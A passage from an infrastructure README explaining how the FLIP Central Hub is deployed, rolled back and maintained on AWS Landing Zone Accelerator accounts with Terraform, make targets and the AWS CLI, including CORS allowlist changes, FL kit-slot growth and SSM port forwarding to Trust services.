2. **Tag resolution.** `TAG=sha-<short7>` from the tip of `DEPLOY_GIT_REF` — `origin/main` for `HUB=prod`,
   `origin/develop` for `HUB=stag` (`git fetch` runs inside the target; `cut -c1-7` pins the
   abbreviation to CI's truncation). A `TAG=` override must match `sha-<7 hex>` or a release `v<X.Y.Z>`; anything
   mutable is rejected before any AWS call.
3. **Two phases.** **Every** service's image is verified in GHCR at that tag **before mutating anything**, so a
   missing tag (builds are path-filtered, and flip-api's is test-gated via `workflow_run`) aborts with nothing
   deployed. A non-404 registry error is reported as such. Non-`ghcr.io` registries skip the manifest check (the
   LZA ECR pull-through cache, FLIP#749).
4. **Per service**, a new task-definition revision is registered with only the app container's image tag swapped —
   containers are selected **by name**, never by index (the same convention as the `describe-tasks` digest check in
   [`TROUBLESHOOTING.md` §1.8](TROUBLESHOOTING.md)), robust to sidecar/ordering changes — and the service is
   repointed at it. If the repoint fails, the just-registered revision is deregistered again so the `max()` tracking
   in `ecs_services.tf` cannot adopt a never-deployed revision, and any services already repointed in the same run
   are listed so a partial deploy is visible. A release apply's `repo:v<X.Y.Z>@sha256:…` reference has its digest
   stripped before the swap; a digest-only reference is refused.

`make rollback-centralhub` repoints each service at its previous ACTIVE revision, then **deregisters the revision
it rolled away from** (it stays describable for forensics). The deregistration is what makes the rollback durable:
`ecs_services.tf` tracks the *latest ACTIVE* revision, so leaving the bad revision ACTIVE would have the next
`terraform apply` silently re-adopt it. On a FLARE hub it first empties the fl-server's `local/` on EFS and
re-syncs the kit (`scripts/reset-fl-server-local.sh`, the `efs-provision-certs` task): since FLIP#1390 the fl-server
writes `local/flip__p_resources.json`, and an older fl-server image cannot load it and fails to start.
`SKIP_FL_LOCAL_RESET=1` is for when the file is already gone or the target revision is FLIP#1390 or later.

Terraform stays the owner of the task-definition *skeleton* (roles, env wiring, volumes). The services track
`max(Terraform revision, latest ACTIVE revision)` (see `ecs_services.tf`), so an unrelated `terraform apply` does not
roll a CLI-deployed image back; when an apply *does* re-register a task definition, the new Terraform revision goes
live with the bootstrap tags from the env file (`DOCKER_TAG`, `DOCKER_FL_TAG`). The CI apply avoids that by resolving
the tag instead of reading it — see [What an automated apply will not do](#what-an-automated-apply-will-not-do).

### Changing the browser CORS allowlist (Cognito `callback_urls`)

The Cognito app client's `callback_urls` **is** this environment's browser CORS allowlist. The UI
signs in with `USER_SRP_AUTH`, so Cognito never redirects to these URLs; flip-api reads them back
instead — the Cognito identity provider's `allowed_origins()` (`flip_api/auth/identity/cognito.py`) calls
`describe_user_pool_client`, `flip_api/utils/cors.py` normalizes each entry to `scheme://host[:port]`, and
`CORSMiddleware` serves that list with
`allow_credentials=true`. Every browser origin that must call the API has to be listed, and removing
one silently blocks that origin — in the browser only, with nothing red in CI or in the ECS console.
This applies to the Cognito-backed environments (stag/prod); the
default dev stack authenticates against Keycloak and derives the same allowlist from the realm's `flip-ui`
client redirect URIs (`deploy/keycloak/flip-realm.json`, `IdentityProvider.allowed_origins()`), so a local
UI port is registered there, not here.

The value is set on `module "cognito"` in `services.tf`. **Deleting the argument does
not empty the list** — `modules/cognito` defaults it to `["https://localhost:443"]`, so an omission
puts a localhost origin into the production allowlist. `tests/test_cognito_callback_urls.py` guards
against both that and an added localhost origin, and runs in CI as the `AWS deploy tests` job of `validate_terraform.yml`.

The stag/prod list holds one entry, and it is the expression `local.ui_origin` rather than a literal
URL: the canonical UI origin differs between a DNS-managed environment (`https://<flip_alb_subdomain>`)
and a zone-less one, where it is the edge distribution's domain. `cloudfront.tf` resolves it once, and the same local feeds the S3 bucket CORS rules, so the
two allowlists cannot drift apart. Adding a *second* origin means adding a literal entry alongside it;
the guard follows the reference into `cloudfront.tf`, so a localhost origin is caught either way.

To change it:

```bash
# 1. Edit the list for the environment's root:
#      services.tf, module "cognito" → callback_urls
# 2. Apply — TARGETED at the app client. Never run a full `make apply` on stag/prod for
#    this: it also applies whatever else is pending in the plan, FL task-definition
#    replacements included. Same reasoning as `apply-fl-kit-slots` above. The apply
#    updates Cognito immediately …
make init HUB=stag
terraform plan -target=module.cognito.aws_cognito_user_pool_client.client -out=cognito.tfplan
terraform apply cognito.tfplan

# 3. … but flip-api does NOT pick it up until it restarts: main.py's lifespan reads the
#    list once at start-up and CORSMiddleware holds it by reference. Restart flip-api.
#    Quiesce FIRST if the deploy will also replace fl-server-net-1 — see "Central Hub
#    deploys and rollback" above (Admin → Deployments, then GET /fl/quiesce).
make deploy-centralhub HUB=stag
#    Or, to restart flip-api alone without moving any image tag:
aws ecs update-service --cluster flip-cluster --service flip-api --force-new-deployment

# 4. Confirm Cognito actually carries the new list …
aws cognito-idp describe-user-pool-client \
  --user-pool-id "$AWS_COGNITO_USER_POOL_ID" --client-id "$AWS_COGNITO_APP_CLIENT_ID" \
  --query 'UserPoolClient.CallbackURLs'

# 5. … and that the running API serves it, with a preflight from the canonical origin.
#    A correct response echoes access-control-allow-origin for that origin; a blocked
#    origin simply omits the header (it is not an error status).
curl -sSi -X OPTIONS "https://<api-host>/api/projects" \
  -H "Origin: https://<ui-host>" \
  -H "Access-Control-Request-Method: GET" | grep -i "^access-control-allow-origin"
```

Step 5 is the one that matters: steps 2–4 can all look right while the browser is still blocked,
because the allowlist the API is *serving* only changes at the restart in step 3.

### Growing the FL kit-slot pool (`add-fl-kits`)

When to run `make add-fl-kits N=<n>`, what it asks and how to recover a failed final apply:
[Deploy the Central Hub → Running out of FL kit slots](https://londonaicentreflip.readthedocs.io/en/latest/deploy-flip/deploy-central-hub.html#deploy-central-hub-kit-slots).
This section is the mechanism.

**Activation vs minting is automatic.** A slot is claimable only when its name is in `FL_KIT_SLOT_NAMES` *and* its
kit exists in S3, and those two can drift — a deployment provisioned with a batch of spare kits has kits nobody can
claim. `add-fl-kits N=<n>` treats `N` as *"ensure N more live slots"*, not a mint count: it **activates** up to `N`
such spares first (lowest-numbered first — just an env-file edit, no certs, no upload, no restart) and only
**mints** the shortfall. When spares cover the request it mints nothing and skips the CA workspace entirely, so
growing the pool past over-provisioned kits needs none of the provisioning toolchain. (Stag on 2026-07-14 held 48
spare kits: `add-fl-kits N=1` activated the idle `Trust_3` in seconds instead of minting `Trust_51`.)

It runs `scripts/add_fl_kits.sh`: discovers the deployment's nets from S3, activates any spares toward `N`, and for
the remaining shortfall restores + fingerprint-verifies each net's CA workspace
(`fl-services/nvflare/provision/workspace-<env>/`) and mints the next `Trust_<n>` names on **every** net via
`nvflare provision --add_client` (existing kits untouched — no CA rotation), uploads **only** the new kits
additively (never `aws s3 sync --delete`) plus a refresh of each net's mirrored `state/cert.json`, and appends the
activated + minted names to `FL_KIT_SLOT_NAMES` in the env file. The make target then re-invokes make for
`apply-fl-kit-slots` (so the sub-make re-reads the edited env file) — a targeted plan/apply of only the
`/flip/fl_kit_slot_names` SSM parameter, plus the flip-api task-role policy that grants its read so the first
rollout is self-contained. flip-api re-reads the parameter when its slot pool runs dry (reconcile-on-miss), so the
new slots are claimable by the next `register-trusts` with **no restart and no task-definition change**.

> **The targeted apply is not literally one resource.** `-target` applies the target's whole dependency closure,
> and the flip-api task-role policy references the bucket modules, whose server-access logging points at
> `aws_s3_bucket.flip_access_logs`. On an environment whose state predates that S3-logging hardening, the first
> `apply-fl-kit-slots` therefore *also* creates `flip-access-logs-<subdomain>` and its ACL/ownership controls. It is
> additive (stag, 2026-07-14: **4 to add, 1 to change, 0 to destroy**). Nothing is replaced or destroyed — but read
> the plan before confirming.

The script has a black-box test harness (`scripts/tests/test_add_fl_kits.sh`, `aws`/`make`/`openssl`
stubbed — no credentials or network) that CI runs in the `Deploy script tests` job of
`validate_terraform.yml` on any `deploy/providers/AWS/**` change; it also runs standalone with plain `bash`.

Kit-minting details and the manual fallback:
[`fl-services/nvflare/README.md`](../../../fl-services/nvflare/README.md#onboarding-a-new-client-onto-an-existing-network).

### Deployment to Different Environments

Which env file and AWS profile each `HUB` value selects, and what it is treated as:
[Deploy the Central Hub → Prerequisites](https://londonaicentreflip.readthedocs.io/en/latest/deploy-flip/deploy-central-hub.html#prerequisites).
`deploy/env_mode.mk` derives all of it once; `tests/test_env_mode.py` pins the table.

**Staging:**

```bash
make full-deploy HUB=stag
```

**Production:**

```bash
make full-deploy HUB=prod
```

`HUB` selects the root env file — `HUB=stag` → `.env.stag`, `HUB=prod` → `.env.prod` — and is required: without
it the AWS provider Makefile refuses every target but the static lint ones (an unset `HUB` means development, which
has no AWS estate).

The Makefile maps `HUB` onto `TF_VAR_environment` (`prod` or `stag`). Terraform branches on this variable to gate prod-only RDS hardening — see [RDS lifecycle](#rds-lifecycle-stag-vs-prod).

#### Renaming from `PROD` (FLIP#1479)

*Remove with the old-name fallback (next release).* `HUB` replaced `PROD=true|stag|lza|lza-stag`, and any `PROD`
stops make — including one still exported in the shell by an old runbook (`export PROD=…`, which `sudo -E` keeps):
`unset PROD`, then pass `HUB=prod` (was `true`/`lza`) or `HUB=stag` (was `stag`/`lza-stag`). Rename the local
files once:

- First delete what the retired self-contained staging account left behind — a `.env.stag` and its
  `trust/.env.*.stag` kits — since LZA staging's files take those names. (`workspace-stag/` stays: it is the staging
  CA workspace either way.)
- `.env.lza-prod` / `.env.production` → `.env.prod`, `.env.lza-stag` → `.env.stag`. Make refuses an old name, and
  two files for one hub:
  keep the one holding the live values (`scripts/reconcile_ci_env.py --env prod --compare <file>` tells).
- AWS profiles `lza-prod` → `prod`, `lza-stag` → `stag` in `~/.aws/config` (or set `PROD_AWS_PROFILE` /
  `STAG_AWS_PROFILE` to the old names). Delete the retired accounts' `prod` / `stag` profiles first.
- Kits `trust/.env.<CODE>.lza-prod` / `.production` / a bare `trust/.env.<CODE>` → `.prod`, `.lza-stag` → `.stag`.
  Until renamed, `KIT=<CODE>` finds the old name (`env_mode.mk`'s `kit_file`) and prints the rename; a target run
  without `KIT=` (`register-trusts`, `sync-trust-kits`) skips it and lists it. Move the file (`mv`), never copy it:
  two names for one kit stop make. A site renames only once it will not roll back past this release, whose
  predecessors know only the old names.

On GitHub, add `TF_HUB` to `aws-stag` / `aws-prod` before the merge. Delete `TF_PROD`, `LOCAL_TRUST_PUBLIC_IPS`,
`K8S_TRUST_PUBLIC_IPS`, `LZA_ELB_ACCESS_LOGS_BUCKET` and any `RELEASE_WEB_ALIAS` from `aws-stag` once this is on `develop`, but from `aws-prod`
only once the release containing it reaches `main`: `main`'s apply and drift workflows read them until then.

#### AWS profile aliases

The Makefile guards refuse to apply unless `AWS_PROFILE` matches the expected profile for the chosen environment: `prod` for `HUB=prod`, `stag` for `HUB=stag` — add these aliases to `~/.aws/config` so commands like `AWS_PROFILE=stag make plan HUB=stag` work without thinking about account numbers:

```ini
[profile prod]
sso_session = FLIP
sso_account_id = <prod-sso-account-id>
sso_role_name = <sso-role-name>
region = <aws-region>
output = json

[profile stag]
sso_session = FLIP
sso_account_id = <stag-sso-account-id>
sso_role_name = <sso-role-name>
region = <aws-region>
output = json

```

Replace each `<…>` with the matching value from the FLIP AWS account directory (kept out of the public repo).

If your local profile names differ, override the defaults via `PROD_AWS_PROFILE` or `STAG_AWS_PROFILE` (in your env file or on the make command line).

FLIP uses no dev AWS account. Development runs entirely locally (Keycloak, the console email backend and a RustFS object store), so the dev-account Terraform root was removed and the account retired (FLIP#1371).

### Deploying onto an LZA estate

> [!IMPORTANT]
> **This estate is applied by CI, not from a laptop.** `terraform_plan.yml` plans LZA staging on every PR
> into `main` or `develop` touching `deploy/providers/AWS/**`, `terraform_apply.yml` applies `HUB=stag`
> on push to `develop` and `HUB=prod` on push to `main`, and `terraform_drift.yml` plans nightly — all
> through OIDC, with no long-lived keys. See
> [Repointing CI at the LZA accounts](#repointing-ci-at-the-lza-accounts) for how an environment is pointed
> at an account, and [Terraform CI](#terraform-ci-plan-on-pr-apply-on-merge) for the pipeline itself.
>
> **Both estates are on LZA.** `aws-stag` carries `TF_HUB=stag` and `aws-prod` carries `TF_HUB=prod`
> (repointed 2026-10-06, [FLIP#1199](https://github.com/londonaicentre/FLIP/issues/1199)), so a merge to
> `develop` applies to the LZA staging account and a merge to `main` applies to LZA production. The first
> CI-applied production apply is the next `develop`→`main` release.
>
> A laptop `make init` / `make plan` / `make apply HUB=prod` is therefore **break-glass**, run only under the
> conditions in [Break-glass](#break-glass); it is reverted by the next CI run and shows up as drift in between.
> What the account must provide and how to bring one up is operator procedure, in
> [Deploy the Central Hub on AWS (LZA)](https://londonaicentreflip.readthedocs.io/en/latest/deploy-flip/deploy-central-hub-aws-lza.html);
> this section is how the stack is built.

This Terraform root deploys onto an AWS estate running the
[Landing Zone Accelerator](https://aws.amazon.com/solutions/implementations/landing-zone-accelerator-on-aws/)
([FLIP#749](https://github.com/londonaicentre/FLIP/issues/749)), where the network, guardrails and edge are owned
by the accelerator pipeline rather than by FLIP. The self-contained single-account mode, in which FLIP built its
own VPC and in-account edge, is no longer supported and was removed in FLIP#1479. The AI Centre's own targets are
the **FLIPProduction** workload account in `eu-west-2` (the `prod` profile alias) and a staging workload
account reached as `stag`.

`HUB` selects the estate:

| | `HUB=prod` | `HUB=stag` |
| --- | --- | --- |
| Env file / kit suffix | `.env.prod` / `trust/.env.<CODE>.prod` | `.env.stag` / `trust/.env.<CODE>.stag` |
| Profile guard | `prod` (`PROD_AWS_PROFILE`) | `stag` (`STAG_AWS_PROFILE`) |
| `TF_VAR_environment` | `prod` — RDS deletion protection + final snapshot on | `stag` — disposable |
| `deploy-centralhub` git ref | `origin/main` | `origin/develop` |
| `LZA_VPC_NAME` | optional (defaults to the prod template name) | **required** in the env file — there is no defaultable staging VPC name, so the Makefile refuses to run without it rather than letting the lookup fail opaquely |
| `MANAGE_DNS` | **required**, `true` or `false` (`false` while the account has no Route 53 zone) | the same |

Everything below reads naturally for either value; where it says `HUB=prod`, staging substitutes `HUB=stag` and
its own account-scoped values (state bucket, `flip-lza-stag-*` bucket namespace, pull-through registry URL); the raw
`TF_VAR_` exports in the env file (listed in the operator manual) are estate-wide values shared by both (one ingress
VPC, one LogArchive bucket), except the two edge ones, which stay empty until a staging edge exists. Each
LZA environment is its **own workload account** — never co-tenant two environments in one account: the stack's
resource names (`flip-cluster`, `flip-api`, `flip-database-proxy`, the `/flip/networking/*` handoff params) are
fixed per account by design.

**What `HUB=prod` selects on LZA:**

| Concern | Value |
| --- | --- |
| Env file | root `.env.prod` (gitignored, like the other env files) |
| Profile guard | `AWS_PROFILE=prod` — a short local alias for the workload account's `FLIPAdminAccess` permission set (override via `PROD_AWS_PROFILE`) |
| `TF_VAR_environment` | `prod` — all prod-only hardening (RDS deletion protection, final snapshot) stays on |
| Trust kit suffix | `trust/.env.<CODE>.prod` |
| `deploy-centralhub` git ref | `origin/main` |
| `TF_VAR_iam_permissions_boundary_name` | **`AICentre-WorkloadRoleBoundary`** — the platform's boundary ([londonaicentre/lza#51](https://github.com/londonaicentre/lza/pull/51)), deployed by the accelerator to every workload account. An LZA SCP denies creating a role, or attaching or writing a policy onto one, unless the role carries it, so no other value works there. An env file that sets the variable itself wins — `?=` only supplies the default ([FLIP#1280](https://github.com/londonaicentre/FLIP/issues/1280)) |

**Platform-managed vs FLIP-managed.** The account's network is owned by the accelerator pipeline
([londonaicentre/lza](https://github.com/londonaicentre/lza)) and VPC-layer creation is SCP-denied in-account, so
Terraform:

- **creates none of**: the VPC, subnets, NAT/IGW/EIPs, VPC endpoints (interface endpoints are centralised in the
  Network account; S3+DynamoDB gateway endpoints are platform-provided) or DHCP options;
- **discovers instead**: the `AWSAccelerator-eu-west-2-prod` VPC and its subnets by Name tag (`network_lza.tf`;
  override the name via `LZA_VPC_NAME`). Subnet lookups match ALL `-app-*` / `-data-*` hits, so subnets the platform
  team adds later — as the second AZ's were — appear on the next plan with no code change;
- **places by connectivity need**: RDS instances go to the isolated **data** subnets (local routes only — nothing
  there can reach TGW/endpoints, and RDS doesn't need to); ECS tasks, the internal NLB, the RDS Proxy, EFS mount
  targets and the EC2 hosts go to the TGW-routed **app** subnets (they need the central endpoints / image pulls);
- **has no in-account edge**: no IGW and VPC Block Public Access make an internet-facing load balancer impossible,
  and the `GRCLOUDFRONTVPCORIGIN` SCP denies CloudFront VPC origins by design (a VPC origin would dial a load
  balancer inside the VPC, bypassing the TGW + central firewall). Ingress rides the networking account's two-tier
  edge instead (proven end-to-end in FLIP#829/PR#830 and now serving the real stack): the edge CloudFront serves
  the UI bucket via cross-account OAC and relays `/api/*` to the internal NLB's `:443` web listener, and the edge
  NLB forwards FL traffic over TGW to the same internal NLB's `:8002` listener (`fl_ingress_lza.tf`; static
  per-subnet IPs the edge registers once as targets for BOTH legs — no target-sync Lambda). Against the ALB the
  self-contained mode used, there is no `/api`-only path filter or default 404 at the load balancer (CloudFront's
  behaviours and WAF are the only L7 gate), no load-balancer-injected `X-Forwarded-*` headers (flip-api reads
  none), and an NLB idle timeout of 350s rather than 60s. The organisation baseline (Control Tower org trail,
  GuardDuty, Security Hub and Config) stands in for the old security-group drift monitor.

Everything else (ECS Fargate, RDS + Proxy, Cognito, S3 + CMK, Secrets Manager, SES, EFS, Cloud Map) is
FLIP-managed. A few resources only the self-contained mode used still stand, unused: the ALB security group and its
`flip-api` ingress rule, and the in-account OAC, `spa_rewrite` function and CloudFront policies — left for a
separate cleanup.





The two pictures are rendered from [`architecture/central_hub.py`](architecture/central_hub.py) (see
[Architecture](#architecture)). The networking account's edge and the Transit Gateway are drawn from the handoff
contract, not from Terraform in this repository.

**Edge wiring is two-phase — by construction, not configuration.** The networking account's edge stack
([aicentre-lza-iac](https://github.com/londonaicentre/aicentre-lza-iac)) is built *from* this stack's outputs: the
first workload `apply` publishes the `/flip/networking/*` SSM handoff params (NLB private IPs, FL port, web port,
NLB DNS name) that the edge NLB and relay consume, so the workload account necessarily applies before the edge
distribution exists. On that first apply `TF_VAR_lza_web_edge_domain` and `TF_VAR_lza_web_edge_distribution_arn`
are still empty: the UI-bucket policy then grants no principal (fail-closed — the edge simply cannot read the
bucket yet) and `local.ui_origin` is a placeholder. Once the edge stack is up, set both values in `.env.prod`
(the edge distribution's default domain and its ARN) and re-apply to grant the cross-account OAC read and point
bucket CORS + Cognito URLs at the edge domain. This ordering is why the two variables deliberately carry no
"required-when-LZA" validation — it would hard-fail the legitimate first apply. The operator side of
the handoff is in the manual's [Two-phase edge handoff](https://londonaicentreflip.readthedocs.io/en/latest/deploy-flip/deploy-central-hub-aws-lza.html#two-phase-edge-handoff).

**Bringing up an account.** The per-account prerequisites (the GHCR pull-through credential and cache rules, the
operator profile), the `.env.prod` / `.env.stag` keys and the zone-less first bring-up (`MANAGE_DNS=false`)
are operator procedure:
[Deploy the Central Hub on AWS (LZA) → Preparing a workload account](https://londonaicentreflip.readthedocs.io/en/latest/deploy-flip/deploy-central-hub-aws-lza.html#deploy-central-hub-aws-lza-account).
Maintainer notes the manual leaves out:

- The state bucket (`flip-terraform-state-lza`, or `-lza-stag`) is declared by `aicentre-lza-iac`'s instantiation of
  [`modules/terraform_ci_bootstrap`](modules/terraform_ci_bootstrap/README.md), together with the CI roles and the
  permissions boundary: versioned, public access blocked, a TLS-only bucket policy and a bounded version history;
  SSE-S3 by default, and on LZA production SSE-KMS under the AWS-managed `aws/s3` key (no CMK).
- The execution role's `ecr:BatchImportUpstreamImage`/`ecr:CreateRepository` grant for first-pull imports IS
  Terraform-managed (`iam_ecs.tf`, LZA-gated); only the cache rules and their secret are out-of-band.
- `DEMO_ASSETS_BUCKET_NAME=flip-lza-demo-assets` belongs in `.env.prod` only (staging hosts no public demo; see
  [Ark+ demo on LZA](#ark-demo-on-lza-flip1199)); `setup-github-environments.sh` refuses to seed `aws-prod` without it.
- The log buckets default to subdomain-derived names (`flip-access-logs-`/`flip-cf-logs-<ALB_SUBDOMAIN>`), and
  `ALB_SUBDOMAIN` keeps its post-cutover value on LZA, so `ACCESS_LOGS_BUCKET_NAME` is overridden into the
  `flip-lza-*` namespace — bucket names are global.
- With `MANAGE_DNS=false` the zone lookup, every Route 53 record and both DNS-validated ACM certs are skipped. The
  workload CloudFront is gated off on LZA anyway, so `terraform output CloudfrontDistributionDomain` is null there by
  design. The internal NLB's web listener is plain TCP until the zone lands, then TLS on the DNS-validated cert
  (`fl_ingress_lza.tf`); flipping it is a cross-repo step, because the relay is TCP passthrough and the edge's VPC
  origin in `aicentre-lza-iac` must switch to https-only with a matching origin host at the same time.
- Secrets (`AES_KEY_BASE64`, `INTERNAL_SERVICE_KEY*`, `ADMIN_USER_PASSWORD`, …) were minted fresh for the account
  during the WP3 bring-up and later replaced by the carried-over legacy **values** in the WP4 data migration (so
  existing trust kits and encrypted data stayed valid) — never reuse the legacy Secrets Manager secret itself.

**The FL port separates the environments.** Both `fl.app.flip` and `fl.stag.flip` resolve to the *same* edge
NLB — one address, two listeners — so the port in the trust kit is the only thing separating them: `:8003` is
staging, `:8002` is **production**. A staging trust on a kit carrying `:8002` joins the production FL net, and it
does so silently, by succeeding.

Staging's FL server still listens on `:8002`, so `FL_SERVER_PORT` stays 8002 in `.env.stag` and the port trusts
dial is set separately (FLIP#1365):

- **FLARE:** `connect_to.port: 8003` in `fl-services/nvflare/provision/net-1_project_stag.yml`, minted into each
  kit's `fed_client.json`.
- **Everything else on the trust side:** `FL_EDGE_PORT=8003` in `.env.stag`, which `sync-trust-kit` copies
  into each kit (and refuses to default for a staging kit). It drives the Flower `--superlink`, the Kubernetes
  egress rule and the Helm Flower superlink; unset, it falls back to `FL_SERVER_PORT`, so production needs nothing.

**Fresh-account trap: create a Secrets Manager secret before the first `plan`.** On a never-used account `make plan`
fails at the very end with `Error: reading KMS Alias (alias/aws/secretsmanager): empty result`
(`data.aws_kms_alias.secretsmanager`, `rds_proxy.tf`) even though the plan computed cleanly: AWS creates that
managed key lazily, the first time the account uses Secrets Manager. Creating the ECR pull-through credential first
fixes it; the procedure is in the manual's
[Preparing a workload account](https://londonaicentreflip.readthedocs.io/en/latest/deploy-flip/deploy-central-hub-aws-lza.html#deploy-central-hub-aws-lza-account). (Verified on the FLIPStaging bring-up,
2026-09-01.)

**Attaching the real domain to the edge** is platform-side work in the networking account; the outline is in the
manual's [Attaching the real domain](https://londonaicentreflip.readthedocs.io/en/latest/deploy-flip/deploy-central-hub-aws-lza.html#attaching-the-real-domain), and the concrete cutover runbook stays in
the private platform repos.

**State of the LZA path** (tracked on #749 and, for the CI legs, [#1199](https://github.com/londonaicentre/FLIP/issues/1199)):

- **LZA staging is CI-applied** (since 2026-10-05). `aws-stag` carries `TF_HUB=stag` and the LZA staging
  plan/apply/drift roles, so PR plans, `develop` applies and the nightly drift run all target the LZA staging
  account, with both apply guards intact (`resolve-image-tags.sh` sha pinning and the
  `check-fl-plan-impact.sh` FL-quiesce hold). `TF_STAG_DISABLED` was deleted at the repoint.
- **LZA production is CI-applied** (repointed 2026-10-06). `aws-prod` carries `TF_HUB=prod` and the LZA
  production plan/apply/drift roles, so a merge to `main` applies to the LZA production account and the
  nightly `main` drift leg plans LZA prod. The legacy production account was closed the same day (legacy
  staging on 2026-09-28). How an environment is pointed at an account is in
  [Repointing CI at the LZA accounts](#repointing-ci-at-the-lza-accounts).
- **No LZA-production plan on release PRs.** `terraform_plan.yml` is staging-only by construction, so a PR
  into `main` gets a staging diff, not a production one; the nightly `main` drift run is the only production
  plan anyone reads.
- **Multi-AZ has landed platform-side** (verified against the live account 2026-08-24): both AZs carry an
  `-app-*`, a `-data-*` and a `-tgw-*` subnet, which clears the earlier single-AZ constraints — the live
  `flip-db-subnet-group` spans both AZs, and the TGW attachment now rides `tgw-a` **and** `tgw-b`, so traffic
  originating in the `-b` subnets no longer blackholes (the condition reported on PR#830). No FLIP-side change
  was needed: the subnet lookups glob every matching Name tag, so the second AZ arrived on an ordinary plan.
- **FL ingress is wired.** `fl_ingress_lza.tf` creates the internal NLB (static per-subnet IPs, so the edge can
  register them once as targets), its target group fronting `fl-server-net-1`, and the `/flip/networking/*` SSM
  handoff the networking account consumes. The full chain — internet → edge NLB → TGW → central firewall →
  internal NLB → ECS — was proven with dummy services first (FLIP#829 / PR#830).
- **Still untested on LZA:** `full-deploy` / `full-deploy-hub-only`, `make status`/`check_status.py`, `update_env.py`
  and `make destroy`. WP3 exercises the `init`/`plan`/`apply` (+ `deploy-centralhub`/`deploy-ui`) loop first and
  fixes up the auxiliary tooling as findings come in.

### Terraform module layout

```
deploy/providers/AWS/
├── main.tf                     # RDS, Secrets, target groups, Central Hub bastion + Trust EC2
├── network_lza.tf              # Discovers the accelerator-provisioned VPC and its app/data subnets
├── fl_ingress_lza.tf           # Internal NLB (web + FL listeners), its SG and the /flip/networking/* handoff
├── services.tf                 # Cognito (delegated to modules/cognito), S3 buckets, IAM bindings; SES wires to modules/ses from main.tf
├── ecs.tf                      # ECS cluster + Fargate capacity providers
├── ecs_services.tf             # ECS Fargate services: flip-api, fl-api-net-1, fl-server-net-1
├── ecs_tasks.tf                # ECS task definitions for the Central Hub services
├── ecs_efs_provision.tf        # Bootstrapping job that seeds the EFS volumes
├── ecs_sg.tf                   # ECS task security groups (per-service)
├── efs.tf                      # EFS file systems + access points for shared FL workspace volumes
├── iam_ecs.tf                  # IAM execution + task roles for ECS Fargate tasks
├── parameter_store.tf          # SSM Parameter Store entries consumed by ECS tasks (bucket URIs, internal URL, etc.)
├── service_discovery.tf        # Cloud Map private DNS namespace (flip.local) for ECS task-to-task resolution
├── locals.tf                   # Shared locals
├── cloudfront.tf               # flip-ui bucket and its cross-account OAC read for the edge distribution
├── certificate.tf              # ACM certificate for the internal NLB's web listener (MANAGE_DNS=true)
├── modules/
│   ├── cognito/                # shared: pool, domain, client, seed users
│   ├── ses/                    # prod/stag only: sender identity, transactional templates
│   ├── secgroup/               # shared: security-group wrapper
│   ├── flip_s3_bucket/         # shared: opinionated FLIP application S3 bucket
│   └── trust_ec2/              # prod/stag only: Trust EC2 host
```

The Central Hub application services (`flip-api`, `fl-api-net-1`, `fl-server-net-1`) run on **ECS
Fargate**. `aws_instance.ec2_instance` is an intentional minimum-viable SSM bastion for ad-hoc
PostgreSQL and network diagnostics: it runs no application containers, has no inbound security-group
rules, and carries only the SSM managed IAM policy. The internal NLB's web and FL-server listeners
forward to ECS Fargate `target_type=ip` target groups
(`aws_lb_target_group.ecs_flip_api`, `aws_lb_target_group.ecs_fl_server_tcp`).

The Cognito and SES resources used to live at the root of the prod/stag stack. `services.tf` and `main.tf` ship `moved` blocks that re-anchor the old root addresses onto the new `module.cognito.*` / `module.ses.*` paths, so any state still on the old layout self-heals on the next plan — no manual `terraform state mv` needed.

### Destroy Infrastructure

The destroy process preserves critical resources (Cognito, Secrets, S3) while safely removing infrastructure:

```bash
make destroy HUB=<stag|prod>
```

**What gets destroyed:**

- Trust EC2 instance
- Central Hub SSM bastion instance
- ECS Fargate cluster, services, task definitions, and EFS file systems
- The internal Network Load Balancer (NLB)
- Cloud Map private DNS namespace
- RDS database (in `stag` only — `prod` is protected, see [RDS lifecycle](#rds-lifecycle-stag-vs-prod))
- Security groups (the VPC and subnets are the platform's)
- IAM roles and policies (EC2 + ECS execution/task roles)
- SSM Parameter Store entries

**What gets preserved:**

- Cognito User Pool and users (authentication data)
- Secrets Manager secret (FLIP_API configuration)
- S3 buckets — both the application buckets and the AI Centre bucket (see [FLIP application S3 buckets](#flip-application-s3-buckets))

#### RDS lifecycle (stag vs prod)

The RDS instance behaves differently per environment, driven by `TF_VAR_environment`:

| Setting                            | `stag` (`HUB=stag`) | `prod` (`HUB=prod`)            |
| ------------------------------------ | ------------------ | ----------------------------------- |
| `skip_final_snapshot`              | `true`           | `false`                           |
| `deletion_protection`              | `false`          | `true`                            |
| `final_snapshot_identifier_prefix` | `flip-database-final` | `flip-database-final`        |

In production, `terraform destroy` (or any `make destroy` against the prod account) will refuse to delete the RDS instance until deletion protection is removed manually, and a final snapshot named `flip-database-final-<suffix>` is taken before deletion. Staging stays disposable so trees can be torn down and rebuilt without snapshot cleanup.

### Status Checking

The deployment includes a comprehensive Python-based status checker:

```bash
make status HUB=<stag|prod>
```

This validates:

- ✅ Terraform state and outputs
- ✅ VPC, subnets, and security group configurations
- ✅ EC2 instance health (Central Hub and Trust)
- ✅ RDS database connectivity
- ✅ Secrets Manager access
- ✅ S3 bucket accessibility
- ✅ Cognito User Pool configuration
- ✅ Docker services on the Trust EC2 and ECS services on Fargate
- ✅ HTTP endpoint availability
- ✅ SSH connectivity
- ✅ CloudWatch Logs configuration

### Accessing Trust Services (XNAT, Orthanc, Swagger Docs)

The Trust EC2 is in a private subnet with no inbound ports open. All Trust web UIs and API swagger docs are reachable via AWS Systems Manager (SSM) port forwarding.

**Prerequisites** (one-time setup):

1. AWS CLI installed and configured (`aws configure sso`)
2. AWS SSM Session Manager plugin installed:

   ```bash
   curl "https://s3.amazonaws.com/session-manager-downloads/plugin/latest/ubuntu_64bit/session-manager-plugin.deb" -o /tmp/session-manager-plugin.deb
   sudo dpkg -i /tmp/session-manager-plugin.deb
   ```

**Open all port forwards in one command:**

```bash
cd deploy/providers/AWS
make forward-trust HUB=<stag|prod>
```

This prints a list of URLs you can paste into your browser:

| Service | Local URL | Purpose |
| --- | --- | --- |
| XNAT | `http://localhost:8105` | Neuroimaging platform UI |
| Orthanc | `http://localhost:8042` | DICOM server UI (basic auth: the kit file's `ORTHANC_USERNAME`/`ORTHANC_PASSWORD`) |
| trust-api swagger | `http://localhost:8020/docs` | Trust API documentation |
| imaging-api swagger | `http://localhost:8001/docs` | Imaging API documentation |
| data-access-api swagger | `http://localhost:8010/docs` | Data access API documentation |
| Grafana | `http://localhost:3000` | Observability dashboards |

